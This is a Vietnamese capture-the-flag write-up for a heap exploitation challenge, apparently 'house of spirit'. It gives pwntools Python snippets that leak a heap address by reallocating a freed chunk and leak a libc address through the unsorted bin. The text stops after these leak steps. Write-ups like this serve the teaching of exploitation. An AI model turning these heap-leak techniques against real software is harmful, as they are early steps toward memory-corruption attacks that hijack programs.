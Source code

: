 ![Alt text](./house_of_spirit/image.png)

# Khai thác

## Leak heap (có thể không cần thiết)

- Để leak được heap đầu tiên ta sẽ malloc mà size là 0 để chương trình làm tròn là 0x20. Sau đó free chunk đó đi và malloc size 0 lại lần nữa
  > Mục đích size 0 là để khi read thì chúng ta không phải nhập gì tránh ghi đè

```python
create(8, b'a') # 0
remove(0)
create(8, b'0') # 0
p.recvuntil(b'tent: \n')
heap = u64(p.recvline(keepends = False).ljust(8, b'\0')) <<12
print(hex(heap))
```

## Leak libc

- Leak libc bằng unsorted bin, khi chunk trong unsorted sẽ chứa 2 địa chỉ libc, ta sẽ ghi đè địa chỉ thứ nhất đế tận dụng %s địa chỉ thứ 2

```python
create(0x500, b'a\n') # 1
create(0x50, b'a') # 2
remove(1)
create(0x500, b'a'*8) #1, count = 2
p.recvuntil(b'a' *8)
libc.address = u64(p.recvline(keepends = False).ljust(8, b'\0')) - 0x219ce0
info("libc address: " + hex(libc.address))
```
